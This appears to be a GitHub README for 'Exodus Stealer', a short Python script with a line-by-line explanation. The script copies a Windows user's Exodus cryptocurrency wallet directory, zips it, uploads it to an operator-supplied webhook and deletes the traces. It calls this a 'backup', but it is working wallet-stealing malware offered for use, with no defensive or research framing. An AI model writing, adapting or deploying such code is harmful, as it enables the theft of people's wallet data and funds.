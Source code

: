 # Exodus Stealer

This script backs up the Exodus wallet configuration directory, creates a zip archive of the backup, and sends it to a specified webhook URL using an HTTP POST request. If the backup and zip creation are successful, the script attempts to remove the temporary files created during the backup process.

# Code

```python
import os.path
import shutil
import requests

# Get the user's home directory
user = os.path.expanduser("~")

# Set the webhook URL
api = ""

# Check if the Exodus configuration directory exists in the user's AppData/Roaming folder
if os.path.exists(user+"\\AppData\\Roaming\\Exodus"):
    # Copy the Exodus configuration directory to a temporary location in the user's AppData/Local/Temp folder
    shutil.copytree(user+"\\AppData\\Roaming\\Exodus", user+"\\AppData\\Local\\Temp\\Exodus")
    # Create a zip archive of the Exodus configuration directory in the temporary location
    shutil.make_archive(user+"\\AppData\\Local\\Temp\\Exodus", "zip", user+"\\AppData\\Local\\Temp\\Exodus")

    # Prepare the zip archive to be sent as a file in a HTTP POST request
    file = {'file': open(user+"\\AppData\\Local\\Temp\\Exodus.zip", 'rb')}
    # Send the HTTP POST request to the specified webhook URL, including the zip archive as a file in the request
    r = requests.post(api, files=file)

    # Attempt to remove the temporary zip archive and directory
    try:
        os.remove(user+"\\AppData\\Local\\Temp\\Exodus.zip")
        os.remove(user+"\\AppData\\Local\\Temp\\Exodus")
    except:
        # If an error occurs while attempting to remove the files, do nothing
        pass
```

# Explanation

1. Imports the required modules: os.path, shutil, and requests.
2. Gets the path to the user's home directory using os.path.expanduser("~").
3. Sets the api variable to your webhook or api.
4. Checks if the Exodus configuration directory exists in the user's AppData/Roaming folder.
5. If the directory exists, the script performs the following actions:
6. Copies the Exodus configuration directory to a temporary location in the user's AppData/Local/Temp folder using shutil.copytree().
7. Creates a zip archive of the copied directory using shutil.make_archive().
8. Prepares the zip archive to be sent as a file in an HTTP POST request.
9. Sends an HTTP POST request to the specified webhook URL, including the zip archive as a file in the request.
10. Attempts to remove the temporary zip archive and directory using os.remove().
11. If an error occurs while attempting to remove the files, the script does nothing.
12. In summary, this script makes a backup of the Exodus wallet configuration directory, zips the backup, and sends it to a specified webhook URL using an HTTP POST request.



